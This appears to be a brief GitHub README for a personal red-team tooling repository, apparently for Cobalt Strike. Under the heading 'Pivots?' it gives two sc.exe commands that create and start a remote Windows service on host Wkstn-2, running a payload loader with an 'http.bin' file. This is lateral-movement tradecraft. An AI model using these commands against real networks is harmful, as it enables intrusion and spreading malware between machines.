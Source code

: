 # CS-Tooling
Random tools that i wrote/found.

Pivots?:

```
run sc.exe \\Wkstn-2 create piv1 displayname=piv1 binpath= "C:\\loader.exe.exe http.bin" start=demand

run sc.exe \\Wkstn-2 start piv1
```
